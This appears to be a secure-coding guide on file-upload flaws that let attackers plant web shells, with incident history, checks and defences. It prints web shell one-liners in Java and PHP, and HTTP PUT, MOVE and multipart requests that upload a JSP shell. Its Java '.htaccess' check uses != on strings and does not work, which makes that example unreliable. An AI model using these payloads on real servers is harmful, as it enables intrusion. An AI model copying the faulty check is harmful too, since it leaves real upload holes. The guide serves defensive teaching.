




## 1. Vulnerability Description
* This is a vulnerability in which the attacker's code is executed with the authority of the web server by uploading the file to the server using the normal file upload function.
Exploitation occurs by allowing uploads without checking the safety of uploaded files, or bypassing inappropriate filtering.
* The attacker's code consists of code that executes command / sends results with the authority of the web service using OS command by language supported by each platform(Web+Shell = WebShell).

#### Execute OS Command - java

```java
java.lang.Runtime.getRuntime().exec(request.getParameter(cmd));
```

#### Execute OS Command - php

```php
@system($_GET[cmd]);
@shell_exec($_POST[cmd]);
@passthru($_POST[cmd]);
```



<Fig 1. Attack scenario>

#### Accident Case
```
- Infringement of delivery service, childcare portal site in 2015
- Korean Medical Association / Dentist Association / Oriental Medical Association Infringement Accidents (150,000) in 2014
- Ticket Monster Infringement Accident (1.13 million) in 2014
- The vulnerability of file uploads is cited as the cause of infringement of the largest percentage of KISA accidents (80 to 90 percent) in 2014/205.
- Case of internal infringement: Web shell upload accident through Tomcat Manager page open to the outside (primary cause of easy password use)
```



<Fig 2. war file upload(target : offsite services with servers in-house / linux & war)>



<Fig 3. aspx file uploads(target : in-house affiliate service C / windows server & aspx)>


## 2. How to check vulnerability
#### Caution
* **It may be problematic even if unauthorized users perform verification operations on third-party web services, not attacks. Please use the test only to verify your own service.**

### 2.1. HTTP Method(PUT, DELETE)
* The above HTTP method, which is commonly used in the RestFul service, can be created / deleted. If methods other than GET and POST are not allowed, they are safe.

#### HTTP Method(PUT)

```
PUT /upload/image/ws.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:30.0) Gecko/20100101 Firefox/30.0
Host: target.com
Connection: Keep-Alive
Content-type: text/html
Content-Length:  60
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```

* Methods such as COPY and MOVE are considered dangerous because they can change the path or name of existing files.
#### HTTP Method(MOVE)

```
Move /upload/image/ws.jpg HTTP/1.1
Destination : http://target.com/upload/image/ws.jsp
Host : target.com
```

### 2.2. File Upload Function
* Upload files using the normal file upload function (such as multipart). If a file with an extension that can be interpreted by the web server is not uploaded, it is safe.

#### HTTP Method(MOVE)

```
POST /upload/upload.jsp HTTP/1.1
Host: target.com
Connection: keep-alive
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36
Content-Type: multipart/form-data;
boundary=----WebKitFormBoundaryWvkRmVFj2ApPGgKi
Accept-Encoding: gzip,deflate,sdch

 
------WebKitFormBoundaryWvkRmVFj2ApPGgKi
Content-Disposition: form-data;name="Filedata"; filename="ws.jsp"
Content-Type: text/html
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```

### 2.3. Use of File Transfer Protocol
* There is no reason why FTP server is open in the web service. Do not run programs that you do not write to. If port such as FTP is not open, it is safe.

#### Reference

```
Some services sometimes open FTP between servers to collaborate with partners.
In that case, you should specify the server IP so that only the partner server IP is accessible (registering with the firewall policy of the internal network team or security team), and set it up so that it does not deviate from the specified path through the permission settings according to the account.
```


## 3. How to Prevent and Respond to Vulnerabilities
### 3.1. File Extension Restrictions
* Files should not be uploaded that server program can interpret.
* White-list is recommended as much as possible because Blacklist has many bypass points.

### 3,2, Path and Name Restrictions
* If you do not limit the path, files can be uploaded to the parent directory or system directory. In addition, sensitive setup files or source files can be overwritten.
* You must restrict file upload through relative path..

#### Reference

```
Most services in the company do not post the file names that you uploaded, but upload files without extensions according to their own Naming rules.
This is a good example of following both the recommendations in 3.1 and 3.2.
```

### 3.3. Capacity Restrictions
* Without capacity limits, web shells containing a high-functional source file are likely to be uploaded. It can also be exposed to DoS attacks that can fill the disk.
* Limit the maximum size of the uploaded file to prevent it (you must compare the size of the actual file other than the contents-length of the http header at the server level).

### 3.4. Authority Restrictions
* You must remove the Execute privilege on the Diretory that will become a File upload.

#### Reference

```
Typically, you have a storage server that is not a Web server, such as OWFS, so it is safe for execution permissions in Naver.
By default, these storage servers have limited permissions to execute.
```


### 3.5. Hiding File Upload Path
* Once the file is uploaded, the attacker must know where the file is being uploaded before they can execute it.
* However, if you hide the path where the file was uploaded, the attacker will not be able to execute the file he uploaded, even if there is a vulnerability.
  * Examples : **http://test.com/download.jsp?idx=1234**

### 3.6. Prevent unnecessary HTTP methods and Port Open
* In addition to general GET and POST methods, unnecessary HEAD, PUT, COPY, DELETE, MOVE, TRACE, OPTIONS, etc. are not allowed.
* Do not open unnecessary ports such as FTP. Opening a port number by changing it is also not something you should do.

#### Reference
##### Discontinue or restrict the use of expanded Web protocols
* IIS (Disable WebDAV) 
  * Under "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters", make "DisableWebDAV" with DWORD and set to 1. Then restart IIS.



* Apache

```
<Directory "/usr/local/http/web">
.....
     <LimitExcept GET POST>
          Order allow,deny
          Deny from all
     </LimitExcept>
 </Directory>
```

* nginx

```
Add limit_except setting for each location setting in nginx.conf
...
    server {
        listen          80;
        server_name     prod.shop.co.kr;
        access_log      logs/access_80.log;
        rewrite     ^   https://prodgate.shop.co.kr:443$request_uri? permanent;
        location / {
             limit_except GET POST {
               deny all;
             }
       } 
...
```


## 4. Example Code
### 4.1. File Extension Restrictions

```java
String fileName = file.getOriginalFilename().toLowerCase();
if ( fileName != null ) {
if ( fileName.endsWith(".doc") || fileName.endsWith(".hwp")
|| fileName.endsWith(".pdf") || fileName.endsWith(".xls") ) {
} else throw new ServletExeption("Error");
```

### 4.2. Path and Name Restrictions
* The example below limits the file name and uploads the file via an absolute path.
* The reason for limiting file names is that sensitive files (such as .htaccess) can be overwritten.

```java
String fileName = file.getOriginalFilename().toLowerCase();
if(fileName != ".htaccess") {
File uploadDir = new File("/app/webapp/data/upload/notice");
String uploadFilePath = uploadDir.getAbsolutePath()+"/" + fileName;
}
```

### 4.3. Capacity Restrictions

```java
int size = file.getSize();
if ( size > MAX_FILE_SIZE ) throw new ServletException("Error");
```
